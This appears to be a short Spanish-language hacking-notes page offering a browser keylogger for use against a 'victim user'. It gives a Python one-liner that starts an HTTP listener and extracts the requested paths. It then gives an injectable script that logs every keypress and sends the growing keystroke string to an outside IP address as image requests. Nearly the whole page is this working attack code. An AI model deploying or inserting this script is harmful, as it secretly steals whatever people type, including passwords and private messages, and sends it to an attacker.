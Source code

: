 # KeyLogger

Script en js para ver que está tecleando el usuario victima

```
python3 -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'
```

```
<script>
        var k = "";
        document.onkeypress = function(e){
                e = e || window.event;
                k += e.key;
                var i = new Image();
                i.src = "http://192.168.1.173/" + k;
        };
</script>
```

<div align="left"><figure><img src="../../../../.gitbook/assets/image (2) (1) (1) (1).png" alt="" width="487"><figcaption></figcaption></figure></div>
